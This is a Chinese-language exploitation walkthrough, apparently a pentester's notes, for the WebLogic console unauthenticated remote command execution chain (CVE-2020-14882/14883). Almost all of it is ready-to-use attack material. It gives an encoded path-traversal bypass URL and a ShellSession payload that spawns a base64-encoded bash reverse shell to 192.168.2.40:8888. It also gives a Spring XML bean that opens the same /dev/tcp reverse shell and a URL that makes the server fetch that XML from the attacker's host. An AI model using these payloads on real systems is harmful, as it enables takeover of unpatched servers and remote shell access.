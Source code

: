 ## 4、Weblogic 管理控制台未授权远程命令执行漏洞（CVE-2020-14882，CVE-2020-14883）

这个漏洞是个组合漏洞，前提是具有

工具无法梭哈，

### 第一步未授权路径：

```
console/css/%252e%252e%252fconsole.portal
```

![](/zj_img/WEBRESOURCE0b811e95332865fcf27ec34e81e65fb2截图.png)

### 第二步，命令执行 Weblogic 12.2.1以上版本：

注意URL编码，使用hackbar成功率高一些，这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在com.tangosol.coherence.mvel2.sh.ShellSession类：

```
console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec("bash%20-c%20%7Becho,YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xOTIuMTY4LjIuNDAvODg4OCAwPiYx%7D%7C%7Bbase64,-d%7D%7C%7Bbash,-i%7D");")
```

![](/zj_img/WEBRESOURCEbf0681134320c4e9cae010d94802f03b截图.png)

### 通杀利用方式 XML远程加载：

XML：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[bash -i >& /dev/tcp/192.168.2.40/8888 0>&1]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

POC：

```
console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.2.40:8000/1.xml")
```
